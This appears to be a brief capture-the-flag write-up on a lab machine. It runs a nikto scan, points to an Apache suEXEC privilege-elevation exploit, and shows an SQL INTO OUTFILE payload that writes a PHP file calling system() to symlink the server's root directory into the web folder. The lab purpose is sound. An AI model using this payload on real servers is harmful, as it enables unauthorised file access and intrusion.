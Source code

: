 ### Writeup 3

When we scanned the machine with nikto we saw that the machine is using `Server: Apache/2.2.22 (Ubuntu)`

So we searched for exploits for this version of apache and found this exploit: https://www.exploit-db.com/exploits/27397

>suEXEC privilege elevation 

We will have to do an SQL injection to get acces to the machine with this exploit





```php
SELECT '<?php  system("ln -sf / test99.php"); symlink("/", "test99.php"); ?>' into outfile '/var/www/forum/templates_c/suexec.php'  
```

We have to go to https://192.168.56.101/forum/templates_c/suexec.php and we now have a folder called test99.php redirecting to the racine folder
